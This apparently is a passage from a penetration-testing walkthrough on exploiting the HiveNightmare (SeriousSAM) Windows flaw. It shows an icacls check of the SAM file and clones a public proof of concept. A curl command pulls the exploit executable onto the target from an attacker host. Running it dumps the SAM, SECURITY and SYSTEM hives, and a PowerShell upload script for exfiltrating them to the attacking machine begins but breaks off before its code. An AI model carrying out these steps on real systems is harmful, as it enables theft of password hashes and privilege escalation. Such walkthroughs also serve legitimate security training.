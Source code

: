 We can check for this vulnerability using icacls to check permissions on the SAM file. 

```cmd-session
icacls c:\Windows\System32\config\SAM
```

Output:

```
C:\Windows\System32\config\SAM BUILTIN\Administrators:(I)(F)
                               NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Users:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

In our case, we have a vulnerable version as the file is readable by the BUILTIN\Users group.

Successful exploitation also requires the presence of one or more shadow copies. Most Windows 10 systems will have System Protection enabled by default which will create periodic backups, including the shadow copy necessary to leverage this flaw.

## Performing Attack and Parsing Password Hashes

We will use the POC `https://github.com/GossiTheDog/HiveNightmare`.

```bash
git clone https://github.com/GossiTheDog/HiveNightmare.git
cd HiveNightmare/Release
python3 -m http.server 8080
```

From the target host:

```
curl http://10.10.14.158:8080/HiveNightmare.exe -O "C:\Tools\HiveNightmare.exe"      
```

And now:

```powershell 
.\HiveNightmare.exe
```

This will create these copies:

```
65536 SAM-2021-08-09
32768 SECURITY-2021-08-09
12582912 SYSTEM-2021-08-09
```

Now, we can transfer them yo our attacking machine, for instance by using the PSUpload.ps1 script:

```powershell
<#

PowerShell Script to upload files using uploadserver module 
Github: https://github.com/Densaugeo/uploadserver

To execute the server run in your Linux Machine:
pip3 install uploadserver
python3 -m uploadserver

Example PS:
Invoke-FileUpload -File C:\Users\plaintext\Desktop\20200717080254_BloodHound.zip -Uri http://192.168.49.128:8000/upload

References: https://gist.github.com/arichika/91a8b1f60c87512401e320a614099283
```